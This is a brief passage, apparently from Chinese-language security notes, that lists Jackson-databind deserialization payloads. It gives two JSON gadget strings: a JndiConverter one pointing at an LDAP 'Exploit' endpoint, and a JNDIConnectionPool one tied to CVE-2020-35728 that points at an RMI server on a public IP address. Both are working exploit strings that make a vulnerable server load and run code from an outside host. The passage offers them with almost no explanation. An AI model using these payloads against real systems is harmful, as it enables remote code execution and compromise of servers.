 String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/Exploit\"}]";  
  
2、代码执行 （CVE-2020-35728）  
  
FasterXML jackson-databind 2.x < 2.9.10.8  
  
String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"rmi://47.94.236.117:1099/gtaafz\"}]";  
  
  
  
